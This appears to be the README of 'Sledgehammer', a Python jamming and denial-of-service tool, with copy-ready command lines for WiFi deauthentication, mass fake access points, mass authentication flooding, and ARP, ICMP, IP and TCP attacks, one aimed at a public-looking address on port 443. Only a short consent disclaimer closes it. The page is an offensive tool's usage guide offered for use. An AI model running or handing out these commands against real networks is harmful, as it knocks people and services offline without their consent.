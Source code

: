### General information
Sledgehammer is collection of Jammer/DoS tools for various protocols. Those include at minimum:

- WiFi (smart deauthentication, DoS via fake AP creation, DoS via authentication)
- arp
- ip
- icmp
- tcp

### Requirements
- Python 3.x
- Pypacker ('pip install pypacker' or clone and 'python setup.py install')
- iwconfig (wireless-tools)

### Installation
Just download and execute.

### Usage examples
Get general help via: python sledgehammer.py --help
Depending on attack mode parameters can vary. See mode-parameters for more info.

- WiFI DoS via smart deauthentication: Disconnect all WiFi clients

  python sledgehammer.py --mode wifi_deauth --iface_name wlan1 --count 9999

- WiFI DoS via smart deauthentication: Disconnect all WiFi clients except '00:11:22:33:44:55'

  python sledgehammer.py --mode wifi_deauth --iface_name wlan1 --nobroadcast --macs_excluded 00:11:22:33:44:55 --count 9999

- WiFi DoS via mass fake APs

  python sledgehammer.py --mode wifi_ap --iface_name wlan1 --channels 1 --count 9999

- WiFi DoS via mass auth

  python sledgehammer.py --mode wifi_auth --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --channels 4 --count 9999

- ARP

  python sledgehammer.py --mode arp --iface_name wlan1 --mac_dst 00:11:22:33:44:55 --ip_dst 192.168.178.1

- ICMP

  python sledgehammer.py --mode icmp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.1

- IP

  python sledgehammer.py --mode ip --iface_name wlan0 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.123 --count 9999

- TCP

  python sledgehammer.py --mode tcp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 193.99.144.80 --port_dst 443

### Disclaimer
Use at your own risk. Do not use without full consent of everyone involved.